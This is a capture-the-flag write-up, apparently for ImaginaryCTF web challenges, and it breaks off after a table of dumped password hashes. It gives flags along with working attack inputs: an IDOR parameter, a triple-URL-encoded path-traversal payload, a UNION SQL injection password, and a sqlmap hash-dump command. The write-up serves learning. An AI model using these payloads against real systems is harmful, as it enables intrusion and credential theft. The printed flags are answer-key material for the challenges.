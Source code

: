 <h2>WEB</h2>
<h3>inspection</h3>

Just inspected the challange description and saw class named `m4rkdown_parser_fail_1a211b44`.

So the Flag is, `ictf{m4rkdown_parser_fail_1a211b44}`.

<h3>Idotriot(web)</h3>

After unzipping given source code, saw there is a code to read `/flag.txt`.
We can read it directlythe flag on http://idoriot.chal.imaginaryctf.org/flag.txt

Flag is, `ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}`.
<h3>Idotriot Revenge</h3>
Similar challenge. 
Got source code of the site in zip file. 
After unzipping the file, checked source code. 
There is two condition in the code to print the flag. 
First condition is to add user_id param in url with id number of admin. 
So I assumed user id of the admin is 0 (first number in database series). 
Second condition is to preg match the username with admin. 
Used, admin1337 as username to register to bypass this and opened http://idoriot-revenge.chal.imaginaryctf.org/index.php?user_id=0.

Flag is, `ictf{this_ch4lleng3_creator_1s_really_an_idoriot}`.
<h3>Roks</h3>

Got source code of the site in zip file. 
After unzipping the file, checked source code. 
After reviewing code got an File Reader endpoint on main page `/file.php?file=IMAGE`.
File input is decoding the url encode and then check if input contains `/` and `.`. 
Checked docker file to know the location of flag and got flag.png on the web directory.
So, url encoded the payload three times to bypass Local File Inclusion (LFI) and worked.
Here is the payload,
`http://roks.chal.imaginaryctf.org/file.php?file=%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%37`

Flag is, `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`.

<h3>Perfect Picture</h3>

Got source code of the site in zip file. 
After unzipping the file, checked source code. 
After reading code we understood that, we have to upload an image with certain condition. 
So, coded an python script to generate a image with matching condition to print the flag and uploaded the flag.
Then got the flag.

Flag is, `ictf{7ruly_th3_n3x7_p1c4ss0_753433}`. 

<h3>Blank</h3>

Used SQLi injeciton to login and printed the flag.
Used username as `admin` and password as `" UNION SELECT 1337, "admin", "cat" --`.
Opened http://blank.chal.imaginaryctf.org/flag to get the flag.

Flag is, `ictf{sqli_too_powerful_9b36140a}`. 

<h3>Login</h3>

Saved login request after capturing it with burp suite. 
Then used sqlmap on it with sqlmap command `sqlmap -r login.req --batch -T users -C pwhash --dump`. 
Got two user password,
```sql
+--------------------------------------------------------------+----------+
| pwhash                                                       | username |
+--------------------------------------------------------------+----------+
| $2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S. | guest    |
| $2y$10$Is00vB1hRNHYBl9BzJwDouQFCU85YyRjJ81q0CX1a3sYtvsZvJudC | admin    |
+--------------------------------------------------------------+----------+
```

